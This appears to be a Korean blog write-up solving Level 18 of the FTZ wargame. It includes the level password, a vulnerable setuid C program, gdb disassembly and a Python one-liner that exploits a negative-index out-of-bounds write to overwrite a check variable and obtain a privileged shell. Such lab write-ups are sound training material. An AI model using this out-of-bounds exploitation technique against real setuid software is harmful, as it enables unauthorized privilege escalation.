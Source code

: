 ```yaml
---
sort: 18
---
```


# Level 18

```note
id : level18

password : why did you do it
```

hint를 보면 attackme의 소스코드가 나온다.<br>
attackme에 setuid가 걸려있으니 얘를 공격해보자.

```c
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main()
{
  char string[100];
  int check;
  int x = 0;
  int count = 0;
  fd_set fds;
  printf("Enter your command: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 100)
        printf("what are you trying to do?\n");
      if(check == 0xdeadbeef)
        shellout();
      else
        {
          FD_ZERO(&fds);
          FD_SET(STDIN_FILENO,&fds);
 
          if(select(FD_SETSIZE, &fds, NULL, NULL, NULL) >= 1)
            {
              if(FD_ISSET(fileno(stdin),&fds))
                {
                  read(fileno(stdin),&x,1);
                  switch(x)
                    {
                      case '\r':
                      case '\n':
                        printf("\a");
                        break;
                      case 0x08:
                        count--;
                        printf("\b \b");
                        break;
                      default:
                        string[count] = x;
                        count++;
                        break;
                    }
                }
            }
        }
    }
}
 
void shellout(void)
{
  setreuid(3099,3099);
  execl("/bin/sh","sh",NULL);
}
```

input값을 1byte씩 읽어서 count값을 줄이거나 input을 write하거나 할 수 있다.<br>
count값이 음수일 때도 c언어에서는 음수값에 따른 indexing을 수행해버리기 때문에 Out Of Boundary가 발생할 수 있다.<br>
string, check 등 지역변수의 위치를 파악한다면 충분히 check값을 바꿀 수 있을 것이다.

<pre>
(gdb) disas main
Dump of assembler code for function main:
0x08048550 (main+0):	push   %ebp
0x08048551 (main+1):	mov    %esp,%ebp
0x08048553 (main+3):	sub    $0x100,%esp
0x08048559 (main+9):	push   %edi

... (중략) ...

<b># if(check == 0xdeadbeef)
0x080485ab (main+91):	cmpl   $0xdeadbeef,0xffffff98(%ebp) # check
0x080485b2 (main+98):	jne    0x80485c0 (main+112)
0x080485b4 (main+100):	call   0x8048780 (shellout) </b>

... (중략) ...

<b># default:
0x08048743 (main+499):	lea    0xffffff9c(%ebp),%eax # string
0x08048746 (main+502):	mov    %eax,0xffffff04(%ebp)
0x0804874c (main+508):	mov    0xffffff90(%ebp),%edx # count
0x0804874f (main+511):	mov    0xffffff94(%ebp),%cl # x
0x08048752 (main+514):	mov    %cl,0xffffff03(%ebp)
0x08048758 (main+520):	mov    0xffffff03(%ebp),%al
0x0804875e (main+526):	mov    0xffffff04(%ebp),%ecx
0x08048764 (main+532):	mov    %al,(%edx,%ecx,1)        # string[count] = x;
0x08048767 (main+535):	incl   0xffffff90(%ebp)         # count++;
0x0804876a (main+538):	jmp    0x8048770 (main+544) </b>

0x0804876c (main+540):	lea    0x0(%esi,1),%esi
0x08048770 (main+544):	jmp    0x8048591 (main+65)
0x08048775 (main+549):	lea    0xfffffef4(%ebp),%esp
0x0804877b (main+555):	pop    %ebx
0x0804877c (main+556):	pop    %esi
0x0804877d (main+557):	pop    %edi
0x0804877e (main+558):	leave  
0x0804877f (main+559):	ret
</pre>

check 변수를 확인하는 부분, switch문의 default문을 살펴보면 지역변수들의 위치를 모두 파악할 수 있다.<br>
각각의 지역변수들의 위치는 아래와 같고, check는 string 바로 위에 붙어있는 것을 알 수 있다.

```
count = ebp - 0x70
x = ebp - 0x6c
check = ebp - 0x68
string = ebp - 0x64
```

```bash
[level18@ftz level18]$ (python -c "print('\x08'*4+'\xef\xbe\xad\xde\n')";cat) | ./attackme 
Enter your command: my-pass
```

```tip
## 알게 된 점

Out Of Boundary (OOB)
```